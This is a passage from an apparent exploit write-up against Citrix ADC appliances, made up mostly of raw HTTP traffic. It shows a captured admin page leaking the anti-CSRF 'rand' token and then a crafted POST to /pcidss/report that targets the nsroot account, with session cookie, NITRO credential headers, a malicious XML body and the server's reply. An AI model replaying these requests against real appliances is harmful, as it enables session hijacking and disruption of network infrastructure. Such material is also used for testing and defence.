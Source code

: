     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en">
    <head>
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Citrix ADC - Statistics</title>
    <link href="/admin_ui/common/css/ns/ui.css" rel="stylesheet" type="text/css" />
    <script type="text/javascript" src="/admin_ui/common/js/jquery/_jquery.min.js"></script>
    <script type="text/javascript">
    //rand is used in utils.js in the URL to logout and in the URL to update NSAPI token
    //rand_key & rand are used in utils.js to avoid CSRF in all POST requests
    var rand = "181103693.1594540472072128";
    var rand_key = "14247218531594540472072170";
    var NSERR_SESSION_EXPIRED = 444;

    </script>
    ...
    <p align="center" class="ns_alert_text"><b>Error retrieving data.<br>return code = 354.<br>Error message = Invalid username or password.<br></b></p></div>

note: var rand = \"181103693.1594540472072128\";

### 0x04 re-break Session

> request

    POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: python-requests/2.20.0
    Content-Length: 44
    Accept-Encoding: gzip, deflate
    Connection: close
    Content-Type: application/xml
    Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57; is_cisco_platform=-1
    Range: bytes=0-102400
    X-NITRO-USER: mMg96GTR
    X-NITRO-PASS: QXom91tz

    <appfwprofile><login></login></appfwprofile>

> response

    HTTP/1.1 406 Not Acceptable
    Date: Sun, 12 Jul 2020 07:54:49 GMT
    Server: Apache/2.4.34 (Unix)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Content-Length: 4489
    Connection: close
    Content-Type: application/xml; charset=utf-8
